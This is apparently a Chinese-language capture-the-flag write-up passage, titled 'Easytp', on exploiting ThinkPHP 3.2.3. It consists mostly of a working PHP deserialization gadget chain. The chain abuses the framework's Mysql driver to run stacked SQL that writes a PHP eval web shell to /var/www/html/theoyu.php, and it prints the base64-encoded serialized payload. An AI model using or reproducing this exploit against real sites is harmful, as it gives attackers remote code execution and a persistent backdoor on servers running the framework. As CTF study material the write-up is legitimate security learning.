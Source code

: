 ### Easytp
> 感觉今后还是得审一下框架，不让就只会那别人的exp也没什么意思。

看到`THINK_VERSION =  '3.2.3';`，就直接去找链子打了。然后看到了[这一篇文章](https://f5.pm/go-53579.html "这一篇文章")，改了改选择传马。
```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true,    
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "mysql",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();
        }
    }
}
namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;
        public function __construct(){
            $this->handle = new Model();
        }
    }
}
namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;
        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                "table" => "mysql.user where 1=1;select '<?php eval(\$_POST[theoyu]);?>' into outfile '/var/www/html/theoyu.php';#",
                "where" => "1=1"
            );
        }
    }
}
namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
```